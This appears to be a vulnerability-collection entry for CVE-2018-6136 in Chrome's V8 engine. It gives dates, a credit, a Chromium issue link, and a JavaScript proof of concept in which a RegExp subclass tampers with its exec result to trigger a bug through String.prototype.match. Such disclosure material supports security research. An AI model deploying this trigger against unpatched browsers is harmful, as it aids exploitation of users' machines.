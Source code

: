 # CVE-2018-6136

- Report: Apr 2018
- Fix: Apr 2018
- Credit: Peter Wong

## PoC

```javascript
class MyRegExp extends RegExp {
  exec(str) {
    const r = super.exec.call(this, str);
    r[0] = 0; // Value could be changed to something arbitrary
    return r;
  }
}

'a'.match(new MyRegExp('.', 'g'));
```

## Reference

- [Issue](https://crbug.com/831943)
